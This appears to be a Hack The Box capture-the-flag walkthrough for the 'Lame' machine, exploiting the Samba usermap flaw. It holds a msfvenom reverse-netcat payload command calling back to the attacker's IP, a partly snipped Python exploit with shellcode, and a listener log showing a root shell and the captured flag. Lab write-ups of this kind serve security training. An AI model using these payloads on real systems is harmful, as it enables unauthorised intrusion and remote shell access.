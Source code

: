 ```sh
```

This exploit is written in ruby, and can be used against the target. A little bit of googling, and you may come across another version on github that does the same thing, but it is written in python.
Reference — [https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851#file-samba-usermap-exploit-py](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851#file-samba-usermap-exploit-py)

Let’s create our shellcode:

`msfvenom -p cmd/unix/reversenetcat LHOST=10.10.14.6 LPORT=9999 -f python `

Done!. Now replace the shellcode into the python exploit from earlier, and you would get a shell!. I have not pasted the entire code here, but you could take this as a reference.

```python
 !/usr/bin/python
  
  from smb.SMBConnection import SMBConnection
  import random, string
  from smb import smbstructs
  smbstructs.SUPPORTSMB2 = False
  import sys
  
  
  # Just a python version of a very simple Samba exploit. 
  # It doesn’t have to be pretty because the shellcode is executed
  # in the username field. 
  
  # Based off this Metasploit module — [https://www.exploit-db.com/exploits/16320/](https://www.exploit-db.com/exploits/16320/) 
  
 < snip

 \# Shellcode: 
  # msfvenom -p cmd/unix/reversenetcat LHOST=10.0.0.35 LPORT=9999 -f python
  
 buf = “”
  buf += “\\x6d\\x6b\\x66\\x69\\x66\\x6f\\x20\\x2f\\x74\\x6d\\x70\\x2f\\x6b”
  <! — snip →
  buf += “\\x20”
  
  
  < snip
```

Let’s get our shell! This shell gives us root privileges.

Run the exploit:

`python pySMBUserMap.py 10.10.10.3 `

Get a shell. Grab the root and user flags, and submit them to HTB.

```sh
 (kali㉿kali)-[~]
  └─$ nc -nvlp 9999 
  listening on [any] 9999 …
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 57217
  pwd
  /
  whoami
  root
  hostname
  lame
  root@lame:/root# cat root.txt
  b2b3501b249d8040f5e5d316ed8fff14
  root@lame:/root# 
```
